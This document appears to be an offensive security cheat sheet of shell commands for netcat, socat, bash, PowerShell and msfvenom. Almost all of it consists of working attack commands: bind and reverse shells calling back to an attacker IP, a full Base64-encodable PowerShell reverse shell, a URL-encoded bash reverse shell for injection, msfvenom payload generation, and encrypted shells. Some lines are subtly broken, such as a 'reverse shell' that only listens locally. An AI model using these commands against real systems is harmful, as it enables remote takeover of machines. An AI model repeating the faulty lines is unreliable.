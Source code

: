 - N.b. many commands below are being run as `sudo` to make use of a port in the `0-1024` range, since root is needed to bind a listener to a port `<1024`. Beyond this range this is not necessary.

## NETCAT

### Flags:
- `-n` Skip DNS resolution
- `-v` Verbose
- `-l` Create listener
- `-p <port number>` To specify port number

Create Listener:
```bash
nc -nlvp <port to listen on>
```
Make Connection:
```bash
nc -nv <IP address> <port>
```
Listen For File Transfer:
```bash
nc -nlvp <port> > incoming
```
Send File:
```bash
nc -nv <IP address> <port> < file/to/transfer
```
Create Bind Shell Windows:
```bash
nc -nlvp <port> -e cmd.exe
```
Send Reverse Shell Linux:
```bash
cat /tmp/f | /bin/sh -i 2>&1 | nc -nl 127.0.0.1 4444 > /tmp/f
```

## OTHER

### Simple Reverse Shell Linux:
```bash
bash -c "bash -i >& /dev/tcp/<OurIP>/4444 0>&1"
```
When you inevitably need to URL encode (https://meyerweb.com/eric/tools/dencoder/):
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<OurIP>%2F4444%200%3E%261%22
```
### Powershell Reverse Shell (Base64 Encoded):
```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```
```bash
powershell -enc <our Base64 encoded Powershell revshell>
```
### msfvenom
For when your existing shell is kinda shit, upgrade it to an msfvenom one: https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
Linux:
```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
Windows:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## SOCAT

- N.b. Whenever we execute a shell we use `/bin/bash` if our target is a Linux machine, this must be substituted for `'cmd.exe', pipes` for Windows.

### Bind Shell:
Set up our listener on the target, which will deliver a shell to anyone who tries to make a connection
```bash
sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash
```
Now just connect with the target
```bash
socat - TCP4:<target IP>:443
```
### Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d TCP4-LISTEN:443 STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443 EXEC:/bin/bash
```
### File Transfer (Attacker to Target):
Prepare listener on source that will send the file to any machine that makes a connection
```bash
sudo socat TCP4-LISTEN:443,fork file:<filename>
```
Connect to source from target
```bash
socat TCP4:<IP address>:443 file:<received filename>,create
```
### Generate .pem:
Generate certificate on target machine
```bash
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Create .pem from keyfile and certificate
```bash
cat shell.key shell.crt > shell.pem
```
### Encrypted Bind Shell:
Begin listening for attempts to connect, and deliver a shell to anyone who tries
```bash
sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
Connect like so
```bash
socat - OPENSSL:<target IP>:443,verify=0
```
### Encrypted Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443, verify=0 EXEC:/bin/bash
```
